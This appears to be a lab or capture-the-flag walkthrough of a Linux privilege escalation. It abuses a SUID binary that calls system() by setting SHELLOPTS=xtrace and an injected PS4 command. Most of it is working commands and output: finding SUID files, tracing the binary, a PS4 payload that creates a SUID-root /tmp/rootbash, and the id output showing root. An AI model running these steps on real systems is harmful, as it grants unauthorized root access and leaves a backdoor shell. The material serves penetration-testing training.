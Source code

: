 Bash has a debugging mode which can be enabled with the –x command line option, or by modifying the SHELLOPTS environment variable to include xtrace.

By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown.

If a SUID file runs another program via Bash (e.g. by using system() ) these environment variables can be inherited.

If an SUID file is being executed, this command will execute with the privileges of the file owner.

In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root.

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2

The suid- - env2 file should execute with root user permissions.

2. Run strings on the SUID file:

```bash - target
strings /usr/local/bin/suid-env2
```

> /usr/sbin/service apache2 start

The file could be trying to run the /usr/sbin/service program.

3. We can verify this with strace:

```bash - target
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

> [pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 start"]

4. Optionally, we can also verify with ltrace:

```bash - target
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:

```bash - target
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2
```

6. Run the /tmp/rootbash file with the -p command line option to get a root shell:

```bash - target
/tmp/rootbash -p
```

```bash - target
id
```

> uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)